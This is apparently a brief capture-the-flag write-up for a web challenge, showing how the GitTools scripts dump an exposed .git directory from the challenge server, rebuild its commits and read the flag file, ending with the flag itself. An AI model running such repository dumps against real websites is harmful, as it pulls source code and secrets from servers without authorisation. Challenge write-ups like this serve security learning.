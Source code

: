 --> https://github.com/internetwache/GitTools <br />

./gitdumper.sh https://gitgood.2020.chall.actf.co/.git/ ../Git <br />
./extractor.sh ../Git ../Git <br />

cat 1-6b3c94c0b90a897f246f0f32dec3f5fd3e40abb5/thisistheflag.txt <br />
actf{b3_car3ful_wh4t_y0u_s3rve_wi7h}
